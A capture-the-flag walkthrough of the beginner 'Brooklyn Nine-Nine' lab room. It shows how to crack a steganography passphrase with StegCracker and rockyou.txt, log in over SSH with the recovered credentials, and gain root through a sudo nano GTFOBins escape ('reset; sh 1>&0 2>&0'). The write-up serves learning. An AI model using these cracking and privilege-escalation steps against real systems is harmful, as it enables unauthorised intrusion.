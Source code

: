 # Brooklyn Nine-Nine
Though the name of this room refers to one of the globally famous series, it does not have anything to do with solving the box. To be honest, this room is a really easy box once you get the initial foothold. Marked as beginner, this box is truly beginner-friendly and very easy to solve. 

This box can be solved in two ways, I'll be explaining one of them. In this path, we'll be using mainly Steghide and GTFOBins. So, let's get started!

### Initial Foothold
Once the machine gets deployed, we can go `http://<machine_ip>` and see that there is an auto-sizing Brooklyn Nine-Nine poster that adjusts its size to our browser's window size. Which looks like:

![homepage_poster](./.images/brook.png)

For any webpage, the first thing that we can do is check out it's source-code and over there we can see a hint related to `steganography`.

![source-code](./.images/source_code.png)

Now, we can think like we have an image and a hint towards steganography. So, we can download the image and see if there is something hidden inside it. We can use `Steghide` to uncover the hidden data:

```
tester@kali:~/Downloads$ steghide extract -sf brooklyn99.jpg 
Enter passphrase: 
steghide: can not uncompress data. compressed data is corrupted.
```

Steghide was not able to retrieve the data from the image, so we can try to do the same with `StegCracker`. If StegCracker is not present on your machine, it can be downloaded using the command `sudo apt install stegcracker`.

We can pass on a wordlist to StegCracker which it uses to attack the target file and if the wordlist is not passed on then it by default uses the rockyou.txt to attack the target file.

```
tester@kali:~/Downloads$ stegcracker brooklyn99.jpg 
StegCracker 2.0.9 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2023 - Luke Paris (Paradoxis)

No wordlist was specified, using default rockyou.txt wordlist.
Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: admin
Tried 20395 passwords
Your file has been written to: brooklyn99.jpg.out
admin
```

We can see that the file has been cracked and the data has been written to a new file. 

```
tester@kali:~/Downloads$ cat brooklyn99.jpg.out 
Holts Password:
*******************

Enjoy!!
```

Now, we have the user credentials that we can try to use with SSH. Keep in mind that the username is `holt` and I've hid the password with `*`.

```
tester@kali:~$ ssh holt@10.10.182.115
The authenticity of host '10.10.182.115 (10.10.182.115)' can't be established.
ECDSA key fingerprint is SHA256:Ofp49Dp4VBPb3v/vGM9jYfTRiwpg2v28x1uGhvoJ7K4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.182.115' (ECDSA) to the list of known hosts.
holt@10.10.182.115's password: 
Last login: Tue Sep 17 08:59:00 2024 from 10.10.10.18
holt@brookly_nine_nine:~$ cat user.txt 
*******************************
```

And we got the `user.txt` flag. Now, the next task is to get the root access for which we need to perform privilege escalation.

### Privilege Escalation
As we have already logged in as holt, we need to become root to get the second flag. We can check the commands that can be executed as user holt. To do this we can use the command `sudo -l` to list all the commands that we can execute as root.

```
holt@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

We can see that the command `/bin/nano` can be executed as 'root' by user 'holt'. So, we can check if there are any [GTFOBins](https://gtfobins.github.io/gtfobins/nano/) for `nano`. We can run the commands as described in GTFOBins and get the shell access as root.

First, we need to enter the `nano editor` with sudo privilege using the command:

```
holt@brookly_nine_nine:~$ sudo /bin/nano
```

Once, we get into the editor we need to press Ctrl+R and then Ctrl+X and then we can execute the command `reset; sh 1>&0 2>&0`. This will give us a root shell using which we can read the `root.txt` from `/root` directory.

![privesc](./.images/privesc.gif)

Now we can take the flag from `root.txt` and submit it as the flag for the second question. With this, we have solved the `Brooklyn Nine-Nine` room!

## Some Key Points to Take Away
1. Whenever you have access to a webpage, check it's source-code for any kind of `Sensitive Information Disclosure`.
2. If you have an image, try to check it for steganography with Steghide or StegCracker.
3. For PrivEsc, always run the command `sudo -l` to check what commands can be executed with sudo privilege by the user and then look up how that command can be exploited using `GTFOBins`.
